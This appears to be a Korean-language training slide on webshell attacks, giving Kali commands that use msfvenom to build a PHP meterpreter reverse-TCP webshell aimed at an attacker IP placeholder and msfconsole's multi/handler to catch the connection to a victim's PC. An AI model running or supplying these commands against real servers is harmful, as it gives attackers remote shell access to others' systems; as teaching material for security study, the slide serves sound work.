

WEBSHELL 공격

# WebShell 공격 : 방법 2번
Console
@@@ Kali @@@
# msfvenom –p php/meterpreter_reverse_tcp lhost=[공격자ip] lport=[공격자포트] –f raw > mWebshell.php

# msfconsole

# use exploit/multi/handler
# set payload php/meterpreter_reverse_tcp
# set lhost [공격자 IP]
# set lport [공격자 포트]
# exploit

Php 확장자로 실행할 페이로드 작성한다.

Msfconsole 접속 후 피해자의 PC에 접속을 위한 셋팅  한다.